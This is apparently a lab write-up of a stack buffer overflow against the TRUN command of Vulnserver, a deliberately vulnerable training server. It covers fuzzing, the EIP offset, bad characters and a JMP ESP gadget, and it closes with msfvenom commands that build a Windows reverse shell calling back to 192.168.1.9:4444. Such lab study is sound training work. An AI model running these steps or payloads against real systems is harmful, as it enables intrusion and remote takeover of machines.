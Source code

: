 # Vulnserver TRUN writeup

Demo with vulnserver

1.  Spiking, detect a vulnerable application

    stats.spk:

    ```
    s_readline();
    s_string("STATS ");
    s_string_variable("FUZZ");
    ```

    trun.spk:

    ```
    s_readline();
    s_string("TRUN ");
    s_string_variable("FUZZ");
    ```

    - `spike-fuzzer-generic-send_tcp 192.168.122.4 9999 ./stats.spk 0 0`
      - no crashes
    - `spike-fuzzer-generic-send_tcp 192.168.122.4 9999 ./trun.spk 0 0`

      - we override the EIP, therefore, the TRUN command is vulnerable to BO

    - look at memory dump, find AAAAAA (instead of manually fuzzing again with python for example)
    - count how many AAA's (address math) => 'A' \* 2983

2.  Fuzzing

    Very simmilar to spiking. Trying to find out rough estimate of when we overwrite the EIP.

3.  Finding the offset

    - `/opt/metasploit/tools/exploit/pattern_create.rb -l 3000`
      - data in EIP: 386F4337
    - `/opt/metasploit/tools/exploit/pattern_offset.rb -l 3000 -q 386F4337`
      > [*] Exact match at offset 2003

4.  Overwriting the EIP

    We can now send the payload:

    - `shellcode = b"A" * 2003 + b"B" * 4`

5.  Finding the bad characters

    Find the characters that are "bad" for the specific binary. For example, characters that execute some other function, so we can't use them in our shell code.

    [badchars](https://github.com/cytopia/badchars)

    ```
    \x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
    ```

    send payload:

    - `shellcode = b"A" * 2003 + b"B" * 4 + badchars`

    Follow ESP address in memory hex dump and see what characters are missing.
    In Immunity Debugger, right click on ESP and -> follow in dump

    '\x00' is always a bad character....

6.  Finding the right module

    - [mona modules for Immunity Debugger](https://github.com/corelan/mona)

      - `!mona modules`

    I) We notice that we are overriding ESP with extra chars after EIP

    - find a jmp to the esp somwhere inside the code

      `!mona jmp -r esp`

      some options: `62501203`, `625011AF`, `625011BB`

    - now we can override eip with desired address and execute our shellcode from esp

    II)

    Finding for a dll or something similar inside of a program that has no memory protections, no DEP, no ASLR, no SafeSEH...

    - `/opt/metasploit/tools/exploit/nasm_shell.rb`

      - `JMP ESP`
        > FFE4
      - see asm commands as actual bytes

    - `!mona find -s "\xFF\xE4" -m essfunc.dll`
      > 0x625011AF

7.  Generating the shellcode

- `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.9 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"`
- `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.9 LPORT=4444 EXITFUNC=thread -b "\x00" -f python -v shellcode`
